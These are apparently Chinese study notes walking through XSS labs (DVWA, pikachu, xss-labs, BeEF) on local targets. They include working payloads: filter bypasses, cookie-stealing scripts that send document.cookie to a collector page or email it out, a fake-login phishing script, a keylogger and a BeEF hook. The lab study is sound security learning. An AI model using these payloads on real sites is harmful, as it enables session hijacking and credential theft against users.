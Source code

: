 # xss渗透与防御

## 服务端的session

![image-20240719112253131](xss渗透与防御/image-20240719112253131.png)	

登录后每次刷新都还是属于登录状态，这是因为有了cookie

![image-20240719112322747](xss渗透与防御/image-20240719112322747.png)	

服务端会下发给客户端sessionid的cookie,之后客户端通过ssid进行身份识别,才能进入到服务端的会话中使用其他的cookie。而其他的账号密码等相关信息的cookie保存至服务端的session中。

![image-20240719112412267](xss渗透与防御/image-20240719112412267.png)	

## JS操作cookie

### cookie的妙用

首先电脑需要在谷歌和火狐游览器安装cookie bar从而获得一个网站的所有cookie

以火狐游览器登录豆瓣，用cookie bar插件获取所有的cookie.

使用插件export导出成json格式。

![image-20240719123850781](xss渗透与防御/image-20240719123850781.png)	

在谷歌游览器使用cookie editor导入从火狐导出的cookie,于是实现了登录。

![image-20240719124851936](xss渗透与防御/image-20240719124851936.png)	

![image-20240719124935228](xss渗透与防御/image-20240719124935228.png)	

那么如何远程获取其他用户的cookie？

首先查看自己的cookie,在f12的控制台使用alert弹窗来显示当前的cookie.

![image-20240719125236408](xss渗透与防御/image-20240719125236408.png)	

![image-20240719125315030](xss渗透与防御/image-20240719125315030.png)	

可以在控制台使用js增加cookie字段信息。

![image-20240719143658308](xss渗透与防御/image-20240719143658308.png)	

![image-20240719143723497](xss渗透与防御/image-20240719143723497.png)	

## 脚本注入网页

### 反射性xss简单案例

第一种是post请求的反射xss案例

正常点击提交，根据后端接受数据就是直接打印用户名。

![image-20240719145607054](xss渗透与防御/image-20240719145607054.png)	

![image-20240719145656570](xss渗透与防御/image-20240719145656570.png)	

如果在用户名里面输入恶意脚本，比如下图这个，则会被后端的php接受，并解析执行。

![image-20240719145755966](xss渗透与防御/image-20240719145755966.png)	

![image-20240719145838181](xss渗透与防御/image-20240719145838181.png)	

第二种get型的反射xss案例

在网页url中传入参数www.baidu.com,当点击链接即可跳转。

![image-20240719150806763](xss渗透与防御/image-20240719150806763.png)		

但是如果传入恶意脚本链接，当点击链接就会执行恶意脚本。

![image-20240719150948897](xss渗透与防御/image-20240719150948897.png)	

### 存储型xss简单案例

首先根据后端代码，建立wuya数据库和xss表。

![image-20240719151810520](xss渗透与防御/image-20240719151810520.png)	

正常前端页面点击注册

![image-20240719151849188](xss渗透与防御/image-20240719151849188.png)	

数据会写入到数据库中。

![image-20240719151924531](xss渗透与防御/image-20240719151924531.png)	

通过query.php在url上传入id获取用户名

![image-20240719152515771](xss渗透与防御/image-20240719152515771.png)	

如果把恶意脚本代码写入数据库。

![image-20240719152006284](xss渗透与防御/image-20240719152006284.png)	

提交后，那么就会触发执行脚本

![image-20240719152631446](xss渗透与防御/image-20240719152631446.png)

数据库内部是这样的	

![image-20240719152751435](xss渗透与防御/image-20240719152751435.png)	

并且每次当服务器去后端查询数据库，也会触发恶意脚本，这就是所谓的存储型xss

![image-20240719152826038](xss渗透与防御/image-20240719152826038.png)	

## 获取cookie发送邮件实战

首先这是mail.js,也是注入的恶意脚本，当用户访问网页触发这个脚本，则会把自身的cookie传入到sendmail.php这个后端文件中。

![image-20240719155954956](xss渗透与防御/image-20240719155954956.png)	

在sendmail后端文件中会通过get请求得到其他人的cookie,并通过邮箱发给自己。

![image-20240719160134122](xss渗透与防御/image-20240719160134122.png)	

首先在qq邮箱中，点击设置，再点击账号，开启pop3等服务,从而获取授权码。

![image-20240719160729765](xss渗透与防御/image-20240719160729765.png)	

在sendmail后端文件要注意php版本要设置为7,password部分填自己qq邮箱的授权码,收发邮箱全部填自己邮箱。

![image-20240719161003513](xss渗透与防御/image-20240719161003513.png)	

xss的脚本注入代码

```
<script src=\'http://localhost/xss/mail.js\'></script>
```

利用存储型xss注入这个脚本到数据库中，当有人访问这个用户名的则会触发这个脚本。会把自己的cookie发送到黑客的邮箱中。

![image-20240719161434031](xss渗透与防御/image-20240719161434031.png)	

数据库注入了恶意脚本。

![image-20240719161836280](xss渗透与防御/image-20240719161836280.png)	

模拟用户登录，并访问了另外一个用户的网页，导致触发这个恶意脚本使得cookie被获取。

![image-20240719162014047](xss渗透与防御/image-20240719162014047.png)	

查询该用户的cookie

![image-20240719164228375](xss渗透与防御/image-20240719164228375.png)		

当访问id=16,数据库查询时会触发这个恶意脚本

![image-20240719164309257](xss渗透与防御/image-20240719164309257.png)	

于是qq邮箱收到了cookie，与原先另一个用户查询的cookie一致。

![image-20240719164355522](xss渗透与防御/image-20240719164355522.png)	

## DVWA靶场XSS

账号admin,密码password

首先安装DVWA的靶场环境，并设置安全等级为low

![image-20240719191708264](xss渗透与防御/image-20240719191708264.png)	

xss注入代码,注入一个弹出xss信息的脚本。

```
<script>alert('xss')</script>
```

反射型xss,点击submit。

![image-20240719192053394](xss渗透与防御/image-20240719192053394.png)	

![image-20240719192012484](xss渗透与防御/image-20240719192012484.png)	

将安全级别设置为medium

xss注入代码，medium难度会把关键字 <script> 给替换成空,于是可以考虑两种方法，大小写字母或者双写法。

```
第一种方法,大小写字母
<Script>alert('xss')</Script>
第二种方法，双写法
<sc<script>ript>alert('xss')</script> 
```

![image-20240719192830848](xss渗透与防御/image-20240719192830848.png)	

将安全级别设置为high

xss注入代码

```
 <img src="" οnerrοr="alert('xss')">
```

![image-20240719193541836](xss渗透与防御/image-20240719193541836.png)	

若难度设置为impossible，则暂时无法用xss注入绕过。 因为使用htmlspecialchars函数，把相应字符转换为实体字符，则失去了原本标签的含义

![image-20240719194053364](xss渗透与防御/image-20240719194053364.png)	

对于存储型的xss也是一样的道理，低级别，点击sign guestbook

![image-20240719194324974](xss渗透与防御/image-20240719194324974.png)	

恶意脚本也被注入到数据库中。

![image-20240719194401969](xss渗透与防御/image-20240719194401969.png)	

medium和high级别也是用之前对应级别的反射型xss注入代码即可。

## xss平台搭建(上)

首先第一个使用的xss平台是pikachu

首先在cookie.php确保重定向后还是pikachu首页，并且该php文件会根据接收到get请求的cookie信息插入到数据库中。

![image-20240719235000158](xss渗透与防御/image-20240719235000158.png)	

xss注入代码,把当前用户的cookie以get请求传到cookie.php文件，再由cookie.php内部把接收的cookie插入数据库中

```
其中的document.location本身是js的网页跳转，所以跳转时会把当前用户cookie信息作为参数给到后端的cookie.php
<script>document.location='http://127.0.0.1/pikachu/pkxss/xcookie/cookie.php?cookie='+document.cookie;</script>
```

![image-20240719235603942](xss渗透与防御/image-20240719235603942.png)	

xss后台已经获取到cookie了

![image-20240719235725354](xss渗透与防御/image-20240719235725354.png)	

上述例子看起来较为复杂，从下面一个简单的小案例即可理解xss的原理

点击submit

![image-20240720000501462](xss渗透与防御/image-20240720000501462.png)	

![image-20240720000521127](xss渗透与防御/image-20240720000521127.png)	

查看网页源代码，其实就是把js代码注入到前端,让游览器去解析执行，从而获取一些信息。

![image-20240720000546918](xss渗透与防御/image-20240720000546918.png)	

第二个案例，post请求的xss注入,用户admin,密码123456点击登录。

![image-20240720001326094](xss渗透与防御/image-20240720001326094.png)	

而post.html内部包含一个js代码,这个代码会把cookie信息给到cookie.php后端文件，而该后端文件又会把cookie载入数据库，落入黑客手中。

![image-20240720003039356](xss渗透与防御/image-20240720003039356.png)	

所以当访问post.html这个网页，则cookie信息就被窃取了。

```
网页地址
http://127.0.0.1/pikachu/pkxss/xcookie/post.html
```

![image-20240720003116480](xss渗透与防御/image-20240720003116480.png)	

第三个案例，进行钓鱼获得账号密码

fish.php会去访问xfish.php并传递参数账号密码给后端，而xfish.php会把账号密码放入数据库从而实现钓鱼。

![image-20240720004314548](xss渗透与防御/image-20240720004314548.png)	

首先注入恶意代码到数据库中。

xss注入代码

```
让网页去加载执行fish.php文件，使得弹出登录框来钓鱼。
<script src="http://127.0.0.1/pikachu/pkxss/xfish/fish.php"></script>
```

![image-20240720004122965](xss渗透与防御/image-20240720004122965.png)	

数据库中就有这个恶意代码，每当打开存储型xss都会出现登录框，除非把这条记录删掉。

![image-20240720004915915](xss渗透与防御/image-20240720004915915.png)	

用户会误以为需要重新登录，使得输入后，账号密码将会被得知。

![image-20240720004210509](xss渗透与防御/image-20240720004210509.png)	

但是这个靶场本身有点小问题，使得没有获取到。

![image-20240720004536034](xss渗透与防御/image-20240720004536034.png)	

第四个案例,利用xss注入获得用户键盘的打字信息。

首先修改rk.js文件，让ajax传输打字信息的路径到对应的rkserver.php后端，而rkserver.php后端会把用户的打字信息，通过数据库保存下来

![image-20240720005259662](xss渗透与防御/image-20240720005259662.png)	

输入内容,哪怕没有提交，打字的内容也暴露了。

![image-20240720005759940](xss渗透与防御/image-20240720005759940.png)		

![image-20240720005826145](xss渗透与防御/image-20240720005826145.png)	

## xss平台搭建(下)

这次讲的xss平台，是kali虚拟机自带的xss平台，名为beef.

使用beef-xss先进行安装,于是再使用该命令打开xss平台。

![image-20240720201843625](xss渗透与防御/image-20240720201843625.png)	

开启beef,其中web ui是xss的管理平台,而hook是js脚本，是需要被攻击网站中注入的恶意脚本。第三个是payload

![image-20240720202002270](xss渗透与防御/image-20240720202002270.png)	

在配置文件当中，可以查看xss平台账号和密码

![image-20240720202200420](xss渗透与防御/image-20240720202200420.png)	

![image-20240720202224247](xss渗透与防御/image-20240720202224247.png)	

登录xss平台

![image-20240720202344806](xss渗透与防御/image-20240720202344806.png)	

用pikachu作为靶场进行xss注入

```
注入代码
<script src="http://192.168.15.141:3000/hook.js"></script>
```

![image-20240720205024470](xss渗透与防御/image-20240720205024470.png)	

于是在xss平台就有物理机pikachu的记录,于是使用xss平台发出弹窗。

![image-20240720205311933](xss渗透与防御/image-20240720205311933.png)	

pikachu收到了，说明可以用xss平台对pikachu靶场进行攻击。

![image-20240720205408162](xss渗透与防御/image-20240720205408162.png)	

也可以阻止pikachu的页面进行访问

![image-20240720205633524](xss渗透与防御/image-20240720205633524.png)	

![image-20240720205658900](xss渗透与防御/image-20240720205658900.png)	

可以使用detail来查看被攻击网站的所有详细信息。

![image-20240720205726686](xss渗透与防御/image-20240720205726686.png)	

## xss-labs闯关游戏

首先准备在apache部署xss-labs,具体参考文档部署。

### 第一关

xss注入代码

```
<script>alert('xss')</script>
```

![image-20240721171720087](xss渗透与防御/image-20240721171720087.png)	

### 第二关

随便输入一个payload,进行测试

```
<script>alert('xss')</script>
```

![image-20240721172227005](xss渗透与防御/image-20240721172227005.png)	

通过查看网页源代码发现，被value属性包住了，所以没有识别js脚本。

![image-20240721172204610](xss渗透与防御/image-20240721172204610.png)	

于是分析之后使用这个payload，即可通过第二关。

```
"><script>alert('xss')</script>
```

### 第三关

依然使用通用payload进行测试

```
<script>alert('xss')</script>
```

查看网页源代码,发现<>和双引号符号被网页转换为html的特定字符了，但是却发现单引号没有被转换，说明可以利用这一点。

![image-20240721172556518](xss渗透与防御/image-20240721172556518.png)	

分析后,使用的payload

```
由于”<>符号被转义,但是单引号没有转义,可以使用单引号闭合，在配合onmouseover属性,只要鼠标悬停在该标签即可触发js事件。
' onmouseover='alert(/xss/)'
```

注入后，鼠标悬停到文本框即可触发js脚本。

![image-20240721173647061](xss渗透与防御/image-20240721173647061.png)	

### 第四关

使用通用payload测试

```
<script>alert('xss')</script>
```

查看网页源代码,发现<>被删除掉了。

![image-20240721173945410](xss渗透与防御/image-20240721173945410.png)	

分析后,使用的payload

```
由于检测到<>符号会被删掉,则加一个onmouseover属性来触发js事件，来执行恶意脚本
" onmouseover='alert(/xss/)'
```

![image-20240722020055454](xss渗透与防御/image-20240722020055454.png)	

### 第五关

使用通用payload测试

```
<script>alert('xss')</script>	
```

查看源代码发现只要识别到script关键字就会中间加上下划线被处理掉。

并且使用第四关的payload也不行，遇到on关键字也会被处理掉加下划线。

![image-20240722020257482](xss渗透与防御/image-20240722020257482.png)	

使用这个payload，先进行符号闭合，然后使用a标签来使得点击触发js事件,伪协议的形式可以躲避关键字处理，javascript关键字没有当作一个整体被处理

```
"><a href="javascript:alert(/xss/)">click</a>
```

### 第六关

使用通用payload测试

```
<script>alert('xss')</script>	
```

查看源代码发现只要识别到script关键字就会中间加上下划线被处理掉。

![image-20240722140445084](xss渗透与防御/image-20240722140445084.png)	

通过分析先进行闭合,然后把scipt关键字改成大小写来写,结果发现没有过滤掉大小写，从而绕过。

```
"><SCript>alert('xss')</script>"
```

### 第七关

使用通用payload测试

```
<script>alert('xss')</script>	
```

查看源代码发现遇到script关键字就会去除掉。而且使用其他的payload会发现把on关键字也去除掉。使用a标签中的href属性也会去除掉。

![image-20240722140704657](xss渗透与防御/image-20240722140704657.png)	

那么采用双写法，去除掉一个on，另外一个ON不会被处理掉，从而绕过。

```
" OonNmouseover='alert(/xss/)'>
```

### 第八关

使用通用payload测试

```
<script>alert('xss')</script>	
```

查看源代码发现遇到script关键字会被加上下划线处理。并且大小写互写关键字也无效。使用伪协议也被处理掉，比如写javascript也会被处理加下划线。	

![image-20240722141627804](xss渗透与防御/image-20240722141627804.png)	

于是可以采用十六进制编码的payload进行绕过，把s进行html实体编码即可。

```
java&#115;cript:alert(/xss/)

实体编码格式如下
&#ascll码; 比如S和s的ascll码分别是83或115
则可以写成&#83;  &#115;
```

### 第九关

使用通用payload测试

```
<script>alert('xss')</script>	
```

查看源代码发现这次直接说链接不合法，也不提示怎么对输入的字符怎么处理。并且哪怕输入合法的链接，也会发现对关键字script和js进行处理加下划线，所以还是通过html实体编码绕过。

![image-20240722143522125](xss渗透与防御/image-20240722143522125.png)	

绕过的payload

```
java&#115;cript:alert('http://baidu.com')
```

### 第十关

这次网页没有输入框，则通过get请求的参数，尝试注入简单的payload

![image-20240722143946668](xss渗透与防御/image-20240722143946668.png)	

查看网页源代码,会发现有三个input隐藏标签

![image-20240722150353806](xss渗透与防御/image-20240722150353806.png)	

分别对三个输出参数，查看源代码后，只发现t_sort的input标签是没问题的。但是发现<>符号被处理掉了。

![image-20240722150923948](xss渗透与防御/image-20240722150923948.png)	

于是使用这个t_sort这个输入框,并且把类型换成text类型,

```
http://localhost/xsslabs/level10.php?t_sort=" type='text' onmouseover='javascript:alert(/xss/)'
```

### 第十一关

先用通用的

![image-20240722154359189](xss渗透与防御/image-20240722154359189.png)	

查看发现源代码，这次有四个隐藏的input标签

![image-20240722154759524](xss渗透与防御/image-20240722154759524.png)	

再从服务端查看网页源代码，其中大部分传入的参数都被htmlspecialchars函数过滤成html的实体符号了。

![image-20240722183853345](xss渗透与防御/image-20240722183853345.png)	

```
但是发现多了一个$str11=$_SERVER['HTTP_REFERER']字段，而我们知道，HTTP_REFERER是获取http请求中的Referer字段的，也就是我们是从哪一个页面来到现在这个页面的。我们可以使用Hackbar进行修改Referer字段。

payload:
" type="text" onclick="alert(1)
```

点击执行，点击文本框即可触发js事件。

![image-20240722184131550](xss渗透与防御/image-20240722184131550.png)	

### 第十二关

查看服务端网页源代码，发现http_user_agent代理发送的数据只处理了<>括号,其余没有处理，于是可以利用http_user_agent发生xss注入实现绕过。

![image-20240722184545463](xss渗透与防御/image-20240722184545463.png)	

```
xss注入代码
" type="text" onclick="alert(1)
```

![image-20240722184710720](xss渗透与防御/image-20240722184710720.png)	

### 第十三关

同理第十三关可以得知，从cookie注入xss代码来入手。

![image-20240722184835999](xss渗透与防御/image-20240722184835999.png)	

抓包,并通过cookie携带payload

```
payload:
user=" type="text" onclick="alert(1)
```

![image-20240722185850480](xss渗透与防御/image-20240722185850480.png)	

![image-20240722185947244](xss渗透与防御/image-20240722185947244.png)	

### 第十六关

分析十六关源码发现,会对keyword中get请求的数据进行过滤,会把script关键字和空格以及/字符进行转义&nbsp。这样就无法让js识别而得到执行。

![image-20240723003047458](xss渗透与防御/image-20240723003047458.png)	

```
经过分析,既然会把空格进行转义，那么就是用换行符%0a,因为前端换行不影响执行。
http://localhost/xsslabs/level16.php?keyword=<a%0ahref="javas%0acript:alert(1)">this
```

点击this即可触发脚本

![image-20240723003616580](xss渗透与防御/image-20240723003616580.png)	
